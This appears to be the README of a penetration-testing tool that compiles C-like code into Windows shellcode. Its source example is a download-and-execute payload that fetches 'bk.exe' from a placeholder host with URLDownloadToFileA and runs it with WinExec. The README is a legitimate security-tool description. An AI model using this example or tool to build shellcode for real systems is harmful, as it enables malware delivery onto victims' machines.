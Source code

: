# Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with NASM (http://www.nasm.us/). 

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
        -h (--help)      : Show this help message
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

# Changelog
1. Code refactoring
2. Exception handling on testing a shellcode (Alkis Christidis)

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Author

Ionut Popescu (@NytroRST) is working as a Senior Penetration Tester for SecureWorks (www.secureworks.com).
